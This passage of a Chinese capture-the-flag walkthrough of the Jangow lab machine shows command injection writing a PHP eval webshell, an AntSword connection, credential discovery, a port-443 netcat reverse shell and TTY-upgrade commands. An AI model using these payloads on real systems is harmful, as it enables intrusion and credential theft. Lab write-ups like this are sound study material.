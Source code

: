 #### 3.2.3 写入小马

因为命令执行，所以尝试了各种姿势反弹shell，可能是水平不够，wget也无法下载到远程服务器上的马儿，所以就开始尝试写入小马

    http://172.16.95.140/site/busque.php?buscar=echo%20%27%3C?php%20@eval($_POST[%27ant%27]);?%3E%27%20%3E1.php
    

![Img](https://img2022.cnblogs.com/blog/2361096/202203/2361096-20220317210841208-699573302.png)  
![Img](https://img2022.cnblogs.com/blog/2361096/202203/2361096-20220317210841426-456709202.png)  
成功写入，上蚁剑，连接成功  
![Img](https://img2022.cnblogs.com/blog/2361096/202203/2361096-20220317210841674-1673815809.png)  
继续收集信息，获得用户**jangow01**家目录下有个**user.txt**，内容似乎是md5加密的，可以顺手破解一下，不过好像是空的，没有任何内容，奇怪  
![Img](https://img2022.cnblogs.com/blog/2361096/202203/2361096-20220317210841906-581166986.png)  
翻了翻其他目录在**html目录下发现.backup文件**，里面是**用户jangow01的mysql账户密码**  
![Img](https://img2022.cnblogs.com/blog/2361096/202203/2361096-20220317210842140-1635929757.png)

然后尝试上传反弹shell的php文件也无法反弹成功

#### 3.2.4 反弹shell

蚁剑虽然连接成功了，但是shell最终还是个webshell，可干的事儿有限，所以还是的反弹shell提权  
经历过刚刚命令执行反弹shell失败，然后尝试上传反弹shell的php文件也失败了，联想刚开始端口扫描时22端口被过滤的情况，应该是目标机器防火墙搞得鬼。  
不过好在**目标机器nc可以使用**，不过最终也没有反弹成功，因为它无法带-e参数。  
\=-=  
打到这儿自己就没思路了，最后查看了别人的攻略，这儿的关键点在于目标机器防火墙对进出的端口进行了限制，最后尝试了443端口可以成功利用

    nc -lvnp 443
    

![Img](https://img2022.cnblogs.com/blog/2361096/202203/2361096-20220317210842410-1062711456.png)  
![Img](https://img2022.cnblogs.com/blog/2361096/202203/2361096-20220317210842778-990603022.png)

#### 3.2.5 升级shell为tty

    which python python2 python3 py py2 py3
    python -c 'import pty;pty.spawn("/bin/bash")';
    export TERM=xterm-256color
    stty raw -echo;fg
    

![Img](https://img2022.cnblogs.com/blog/2361096/202203/2361096-20220317210843172-1570897021.png)

#### 3.2.6 寻找漏洞提权

升级shell之后，就可以sudo和su了，结合之前发现的两个mysql账户名密码，尝试了以下切换用户，结果mysql的账户密码和系统的账户密码一致。  
![Img](https://img2022.cnblogs.com/blog/2361096/202203/2361096-20220317210843540-612641622.png)  
然后尝试sudo的时候失败了，好像不是英文，不过看到了个sudoer，猜测应该是提示这个用户不再sudoer文件中，也就是没有sudo的权限。

那就看看有没有其他漏洞可以利用吧

    uname -r
    uname -a
    lsb_release -a
    